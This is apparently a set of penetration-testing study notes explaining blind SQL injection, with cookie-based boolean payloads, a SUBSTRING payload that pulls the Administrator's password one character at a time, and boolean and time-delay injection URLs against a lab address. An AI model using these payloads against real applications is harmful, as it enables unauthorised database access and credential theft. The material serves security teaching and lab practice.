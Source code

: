 ```yaml
---
description: >-
  Blind SQL Injection arises when an application is vulnerable but no visual
  response or errors occur.
---
```


# Blind SQL Injection

This is a very common type of SQL Injection.

With blind SQL injection vulnerabilities, many techniques such as UNION attacks, are not effective because they rely on being able to see the results of the selected query.



### Exploiting blind SQL Injection by triggering conditional responses

Take for example a Tracking Cookie:

`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`\


**The server checks if the cookie exists, and might return something like: "Welcome back".**

_**Manipulate the request:**_

`Cookie: TrackingId=testing' AND '1'='1`&#x20;

`Cookie: TrackingId=testing' AND '1'='2`



We can systematically extract passwords as follows:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`\


We continue with this until we extract the entire password.



```
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```

```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

\
